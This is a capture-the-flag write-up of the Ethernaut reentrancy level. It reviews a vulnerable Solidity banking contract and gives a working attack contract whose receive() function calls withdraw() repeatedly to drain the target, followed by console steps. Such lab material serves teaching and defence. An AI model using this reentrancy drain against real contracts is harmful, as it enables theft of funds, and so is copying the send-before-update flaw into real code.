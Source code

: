 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel10.svg">

# Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```
Challenge's message.

>The goal of this level is for you to steal all the funds from the contract.Things that might help:
Untrusted contracts can execute code where you least expect it.
Fallback methods
Throw/revert bubbling
Sometimes the best way to attack a contract is with another contract.

We have a basic smart contract that performs the banking function. The first thing we look at is it uses the SafeMath library for the type of uint256 variables because of prevents Integer Underflow vulnerability. Also, it has a defined public mapping named **balances** to document the address's balances in the contract. After that, there is **donate()** function to increase the address's balance. And then, we can learn someone's balance with the help of **balanceOf()** method. And finally, we have **withdraw()** function to withdraw the amount from our balance. 

However, there is something in the crash. We will talk about the next part :> In the end of the code, there is a candy. Usually, **receive()** functions are used to get ether for the contract with the low-level contract interaction. In this case, it is left blank. Why?

# Subverting

When we look at the target code from the hacker's perspective, we can clearly show in the withdraw function; the contract updated the balance after sending the amount to the user's address. What's wrong? In the design pattern, devs might think that contract always sends the amount to the user balance only once. Hereby, updating works correctly. But, in the end of the code a **receive()** function which is payable and left bank. It helps us to low level interaction to our attack contract when we want get some ether more. What is more, if we abuse this case to send ether to our address more than once, what will happen?

The entire amount in the contract will be transferred to the attacker's account. Brainful, isn't it? I explained this vulnerability so detail in my [reentrancy repository](https://github.com/wasny0ps/Reentrancy). I strongly recommend this article to understand reentrancy more clearly and learn how to prevent this vulnerability. Let's look our attack contract.

```solidity
pragma solidity ^0.8.17;

interface IReentrancy{

    function donate(address _to) external payable;
    function withdraw(uint _amount) external;

}

contract Attack{

    IReentrancy target;

    constructor(address  _target) {
        target = IReentrancy(_target);
    }

    function attack() external payable{
        target.donate{value: msg.value}(address(this));
        target.withdraw(msg.value);
    }

    receive()external payable{
        if(address(target).balance >= 0.001 ether){
            target.withdraw(0.001 ether);
        }
    }
}
```
Before explain our attack contract, check target contract's balance.
```shell
await getBalance(contract.address)
'0.001'
```
We learned entire amouunt in target contract as **0.001 ether**. Let's convert it to wei.

```shell
await web3.utils.toWei('0.001','ether')
1000000000000000
```
After converting it to wei, it's time to explain the attack contract. First of all, this contract is a little bit different than other attack contracts. Because we used the **interface()** method to interact with other contracts easily. Also, before you use the interface, you must add into the interface method the same functions which are in the contract that we want to interact with. Otherwise, you will get an error. That's why, we use an interface to interact with the target contract. After that, get an instance of the target contract with enter the target contract's address in the constructor. 

In the **attack()** contract, it calls donate function and adds some value to our address's balance. In the next step, get ether back from the target contract. When the target contract sends **msg.value** to our attack contract, our **receive()** function welcomes the transaction. And then it calls **withdraw()** function again and again until target's balance less equal than 0.001 ether. While this process, target contract won't be updated the new balance. Thus, we get all money from the target contract. 🤑 

Let's bum out. Deploy the attack contract.

<img width="300" src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Re-entracy/img/deploy.png">

Call attack function with sending 1000000000000000 wei.
<img width="300" src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Re-entracy/img/attack.png">

And show our hack.

<img width="300" src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Re-entracy/img/result.png">

